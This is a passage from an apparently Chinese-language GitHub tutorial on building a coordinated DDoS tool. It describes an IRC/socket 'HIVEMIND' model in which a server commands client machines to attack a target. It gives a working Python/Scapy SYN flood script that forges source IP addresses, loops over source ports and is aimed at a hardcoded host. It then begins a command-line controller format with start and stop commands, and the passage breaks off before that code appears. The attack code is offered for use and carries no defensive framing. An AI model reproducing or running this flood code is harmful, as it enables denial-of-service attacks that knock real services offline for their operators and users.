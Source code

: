 
## DDoS实现思路
DDoS全称是Distributed Denial of Service，翻译成中文就是分布式拒绝服务，简单地说，就是调动多台主机一起发起攻击。  
如何协同多台主机一起发起攻击呢？一种传统的方法就是控制多台傀儡机，同时进行SYN泛洪攻击，还有一种模式叫做HIVEMIND。  

> 通过HIVEMIND模式，用户可以通过连接到一台 IRC(Internet Relay Chat services)服务器，当有用户发送命令，任何以HIVEMIND模式连接到IRC服务器的成员都会立即攻击该目标。  

简单地说，一台主机可以作为Socket Server，其他主机作为Client，Client使用socket方式连接到Server，接收到信息后发起攻击。理想情况，就是志同道合的同志，可以随时加入攻击过程，只需执行客户端连接脚本即可开始攻击。

## 前期准备
### 实现一次SYN泛洪攻击
具体步骤及介绍查看代码内注释，##注释内容为测试的代码
```python
import os
import random
from scapy.all import *
def synFlood(tgt, dport):
    # 伪造的源IP地址列表，同时也是保护攻击者的一种方式
    srcList = ['201.1.1.2','10.1.1.102','69.1.1.2','125.130.5.199']
    # 从不同的源端口发送
    for sPort in range(1024, 65535):
        # 随机选择主机地址
        index = random.randrange(4)
        # 一个完整的TCP包由一个IP包和TCO包组成
        # 1. 构造IP包，设置源地址src和目的地址dst
        ipLayer = IP(src=srcList[index], dst=tgt)
        ## print("IP layer is " + str(ipLayer))
        # 2. 构造TCP包，设置发送源端口sport和目的源端口dport,flag值设为S表示发送SYN数据包
        tcpLayer = TCP(sport=sPort, dport = dport, flags="S")
        ## print("TCP layer is " + str(tcpLayer))
        # 3. 构造完整TCP包，IP包/TCP包
        packet = ipLayer / tcpLayer
        send(packet)
        print("Sent")
        ## print(sPort)
        
if __name__ == "__main__":
    synFlood("192.168.50.10", 80)
```


### 使用argparse命令行解析模块
首先，我们需要命令行解析模块，对我们的命令行输入作处理。Scapy原本是一个命令行的模式，但我们不像每次攻击都手动输入一大堆命令吧，使用脚本会更加方便，所以我们需要argparse模块，对我们的命令行输入做处理，然后“发送”到Scapy中。

由于我们需要的是一对多模式（Server -> Client），首先我们规定好命令行格式：  
```sh
#-H xxx.xxx.xxx.xxx -p xxxx -c <start|stop>
```
接下来进行使用argparse的训练：  
代码如下：
